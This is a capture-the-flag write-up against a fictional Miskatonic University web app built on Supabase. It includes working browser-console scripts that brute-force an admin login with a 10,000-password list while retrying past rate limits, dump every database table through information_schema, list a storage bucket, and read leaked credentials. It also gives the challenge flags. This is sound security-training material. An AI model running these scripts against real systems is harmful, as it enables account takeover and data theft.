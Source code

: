 ```yaml
---
created: 2024-12-09T15:10
updated: 2024-12-15T08:05
points: 450
---
```


## Basics

With just some basic digging we can find two flags.

```txt [robots.txt]
User-agent: *
Disallow: /api/
Disallow: /super-private-do-not-enter/
Allow: /
```

### flag 1

```flag
flag::easy::456e4cf23533dafd6533c4d24d2599adb5e72583
```

```js [page-4b9910aed5976f5d.js]
l.jsx)("div", {
	className: "hidden",
	children: "flag::easy::aecd9d79901a1251f845897b310c74b7e71d2531"
})]
```

### flag 2

```flag
flag::easy::aecd9d79901a1251f845897b310c74b7e71d2531
```

## Allow Signup
Signup doesn't work sadly, even after I patched it to allow any email.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733775042/2024/12/e546bc49ddf87b2d0b2218878c391215.png)

## Leak App

By overriding the source JavaScript, we can leak the variables used in those functions.

At the same time, we also remove the scope on `select *`, maybe it will review more information.

```js [page-4b9910aed5976f5d.js]
(async function() {
	let {data: e, error: s} = await c.from("bulletins").select("*");
	console.log("Database:", c);
	console.log("Bulletin Data:", e);
	s ? console.error("Error fetching bulletins:", s) : t(e)
})()
```

### flag 3
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733940127/2024/12/c6d4d63d6af3690db7882c3a2edd94a2.png)

```flag
flag::easy::68e4b805974b53e322e52382e5ce387d1b13f325
```

### Storage Leak
We can see that there is a storage bucket named `university-news`, let's leak it.

```js
let {title: t, children: s, imagePath: i, date: a} = e
  , {data: r} = n().storage.from("university-news").getPublicUrl(i);
```

```js [console]
const {data:files}=await temp1.storage.from("university-news").list('',{
limit: 100,
offset: 0
});
const urls = files.map(e=>temp1.storage.from("university-news").getPublicUrl(e.name).data.publicUrl);
[
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/ancient.webp",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/cthulhu.webp",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/herbert-west.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/README%20(1).md",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/README.md",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/squid.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/student-campus.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/symposium.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/university-front.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/wireframe.jpg"
]
```

## Storage Info
We find this inside `README.md` and `README (1).md`.

```
connect to ap-southeast-2 ec2
connect to db postgres.kwhiugfxfqtfldzjaunl on ap-southeast-2 pooler using password "allhailcthulhuthegreatdreamer"

connect to ap-southeast-2 ec2
connect to db as cultist on project kwhiugfxfqtfldzjaunl on ap-southeast-2 pooler using password "allhailcthulhuthegreatdreamer"
```

Welp, can't connect to them due to IP restrictions.

## Signup Attempt 2

Ok, since sign up via UI doesn't work, I shall just call the methods directly.

```js [console]
console.log(await temp2.auth.signUp({
  email: 'me@gmail.com',
  password: 'password',
}));
```

Huh it works, I got an email and can login now.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733940850/2024/12/30a1e0c964e8b646d241e724c1e900be.png)
### flag 4

```flag
flag::easy::4a7314c446cfb28b31118bc606a82627ac18779e
```

## Sign In as Admin

On the site we can find a email `herbert.west@miskatonicuniversity.us`, let's try to login as that with 10k passwords.

```js [console]
const passwords = (await fetch("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10k-most-common.txt").then(r=>r.text())).split("\n");
const sleep = ms => new Promise(r => setTimeout(r, ms));
for(let i=0;i<passwords.length;){
    console.log("trying",i);
    const {data, error}=await temp1.auth.signInWithPassword({email:"herbert.west@miskatonicuniversity.us", password:passwords[i]});
    if(error) {
        if(error.message==="Request rate limit reached"){
            await sleep(500);
            continue
        } else {i++;continue}
    }
    console.log("yay",data)
    break;
}
```

## Leak all Tables

```js [console]
const tables = (await temp1.schema("information_schema").from("tables").select("*")).data;
for(let table of tables){
    const {data, error} = await temp1.schema(table.table_schema).from(table.table_name).select("*");
    if(error)continue;
    console.log("======",table.table_schema,".",table.table_name,"=======");
    console.table(data);
}
```

### `public.staff`

| (index) | id  | first_name  | last_name  | email                                                          |
| ------- | --- | ----------- | ---------- | -------------------------------------------------------------- |
| 0       | 1   | 'Herbert'   | 'West'     | 'herbert.west@miskatonicuniversity.us'                         |
| 1       | 2   | 'Henry'     | 'Armitage' | 'henry.armitage@miskatonicuniversity.us'                       |
| 2       | 3   | 'Ferdinand' | 'Ashley'   | 'ferdinand.ashley@miskatonicuniversity.us'                     |
| 3       | 4   | 'Allen'     | 'Halsey'   | 'allen.halsey@miskatonicuniversity.us'                         |
| 4       | 5   | 'Albert'    | 'Wilmarth' | `flag::intermediate::602c6d77e8294687ceb9608f3df5d2f89adc31ae` |

### flag 5

```flag
flag::intermediate::602c6d77e8294687ceb9608f3df5d2f89adc31ae
```

## DNS
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734027236/2024/12/9bdc4713e9ba3ff531554d9a4ec01d69.png)
### flag 6

```flag
flag::easy::2c4452b6c23b2be707fcab43689ec06b7a91b6a5
```

## Wayback Machine

[web.archive.org/cdx/search/cdx?url=*.miskatonicuniversity.us&output=text&fl=original&collapse=urlkey](https://web.archive.org/cdx/search/cdx?url=*.miskatonicuniversity.us&output=text&fl=original&collapse=urlkey)

```
...
https://miskatonicuniversity.us/api/
https://miskatonicuniversity.us/atom.xml
https://miskatonicuniversity.us/even-more-super-private-do-not-enter
https://miskatonicuniversity.us/favicon.ico
https://miskatonicuniversity.us/feed/
https://miskatonicuniversity.us/feeds/all.atom.xml
...
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734028108/2024/12/e017289da9023035a9e61331ac7f053c.png)

### flag 7

```flag
flag::intermediate::f49ae1ae7e56e8982fd0bb6ffc16c0f3d23a81b3
```
